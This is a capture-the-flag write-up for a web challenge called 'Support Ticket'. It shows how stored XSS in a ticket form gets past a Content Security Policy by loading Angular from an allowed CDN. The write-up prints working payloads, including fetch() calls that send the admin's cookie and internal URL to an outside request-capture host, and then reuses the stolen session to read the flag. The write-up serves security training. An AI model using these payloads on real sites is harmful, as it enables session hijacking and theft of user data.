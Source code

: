 <img src="https://raw.githubusercontent.com/CTFae/media/main/brand/YT-banner.jpg" />

### Challenge: Support Ticket
### Category: Web
### Difficulty: Hard
<hr>

#### Challenge Description
In this challenge, the player is presented with a website where they can submit support tickets that will be reviewed by an admin. The goal is to achieve successful XSS by bypassing CSP.

#### Challenge Screenshot
![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-1.png)

#### Solution
Let us test if there is XSS in the Description input:
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-2.png)

We can preview the ticket to see if our payload will work, and we see that the HTML was embedded, but there was no alert popup. Viewing the source confirms that the payload is there, it just didn't fire. If we open the console to check, we see an error about CSP.

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-3.png)

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-4.png)

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-5.png)

CSP (Content Security Policy) is an HTTP header that a web application can send to inform the browser what are the trusted sources to load and execute javascript from. Let's examine the CSP policy sent by the server:

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-6.png)

We can use an online tool by google called [CSP Evaluator](https://csp-evaluator.withgoogle.com/) and paste the CSP policy into it to check for any vulnerabilities.

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-7.png)

We can observe that this CSP policy allows the execution of scripts that are hosted on the domain `cdn.jsdelivr.net` which may also host Angular libraries that can be used to bypass this CSP. For more on bypassing CSP using angular, read this blog [here](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d).

Here is what a sample payload looks like using angular loaded from `cdn.jsdelivr.net`:
```html
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

Let's test to see if it works:

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-8.png)

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-9.png)

It works! So now let's craft a payload to exfiltrate the cookie and see if there's anything interesting. I will be using a payload that sends the cookie via HTTP request to a RequestBin URL:

```html
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('fetch("https://enveya9ikla4d.x.pipedream.net/?cookie=" + document.cookie, {mode: "no-cors"})')()}}</div>
```

We run the payload successfully on the admin and steal their cookie:

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-10.png)

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-11.png)

But...the cookie contains no flag and applying it has no effect. Let's enumerate further and try to steal the URL that the admin is using to view our tickets:

```html
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('fetch("https://enveya9ikla4d.x.pipedream.net/?url=" + window.location.href, {mode: "no-cors"})')()}}</div>
```

We run the payload successfully again and see the internal URL:

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-12.png)

We found an internal URL! And it has an HTTP parameter `showFlag=0`! It seems we have found our flag, let's try to visit it:

![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-13.png)

We get a permisssion denied, not admin. But that's okay, we stole the admin cookie earlier. Apply it and refresh and also change the HTTP parameter to `showFlag=1`.


#### Exploit Screenshot
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/support_ticket-14.png)

<hr>

&copy; <a href="https://ctf.ae" target=_blank>CTF.ae</a>

